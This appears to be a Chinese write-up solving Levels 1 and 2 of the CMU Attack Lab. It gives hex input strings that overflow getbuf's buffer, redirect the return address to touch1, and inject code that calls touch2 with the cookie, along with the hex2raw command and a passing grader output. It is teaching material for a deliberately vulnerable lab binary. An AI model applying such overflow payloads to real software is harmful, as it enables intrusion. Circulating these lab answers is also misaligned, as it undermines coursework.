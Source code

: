 可见函数 `touch1` 的地址为 `0x4017c0`。

##### 1.4.3 ATTACK

函数 `getbuf` 在栈中没有保存寄存器，也没有其他局部变量。因此由栈帧的结构可知，当发生缓冲区溢出时，溢出部分将直接覆盖调用者栈帧中的返回地址。

构造用于注入的字符串：

1. 输入任意 40 个字符填满缓冲区；
2. 输入作为地址的 8 个字符导致溢出，溢出部分将返回地址修改为 `touch1` 的地址 `0x4017c0`。注意地址的字节顺序应当按照小端序（little endian），即低位字节保存在低地址，高位字节保存在高地址。

编辑输入文件 `exploit.txt`：

```text
c2 a9 20 32 30 31 39 20
43 6f 70 79 72 69 67 68
74 20 48 61 6b 75 6c 61
2c 20 43 43 20 42 59 2d
4e 43 2d 53 41 20 00 00
c0 17 40 00 00 00 00 00
```

在 `ctarget` 程序中输入该字符串：

```bash
cat exploit.txt | ./hex2raw | ./ctarget -q
```

输出信息：

```text
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:C2 A9 20 32 30 31 39 20 43 6F 70 79 72 69 67 68 74 20 48 61 6B 75 6C 61 2C 20 43 43 20 42 59 2D 4E 43 2D 53 41 20 00 00 C0 17 40 00 00 00 00 00
```

##### 1.4.4 运行结果

{{< image src="assets/level-1.webp" caption="Level 1 运行结果" >}}

### Level 2: Code Injection

#### 2.1 本关目标

执行函数 `touch2`，并传入 `cookie` 的值作为参数 `val`。

#### 2.2 本关解答

`exploit.txt` 中的内容：

```text
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
